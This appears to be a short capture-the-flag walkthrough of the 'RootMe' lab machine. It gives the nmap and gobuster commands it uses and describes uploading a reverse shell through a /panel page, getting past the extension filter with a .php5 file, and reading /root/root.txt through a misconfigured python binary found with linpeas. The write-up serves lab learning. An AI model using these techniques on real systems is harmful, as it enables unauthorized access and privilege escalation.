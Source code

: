TOOLS USED: 

NMAP
GOBUSTER
LINPEAS




THE MACHINE IS ROOTME

For firts thing run the tool name Nmap: 

	nmap -p- IPMACHINE

I foud two ports open wich there are:

	ssh 22

	http 80


enter on the website and run the gobaster 

	gobuster dir -u http://IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

there are you two directory:

	/panel
	/uploads

in the panel i can upload a file for do the reverse shell and whit uploads i can run it
there is a check for the extansion of file , for bypass i use this taype .php5



Now the need  do escalate our privilage.For do that , we use another tool called linepas.
run this on the machine for extract the information for possible privialge escalation.


it found there is vuln in:

	urs/bin/python 

so we have to use python for open file root.txt

	python -c 'print(open("/root/root.txt").read())'


 
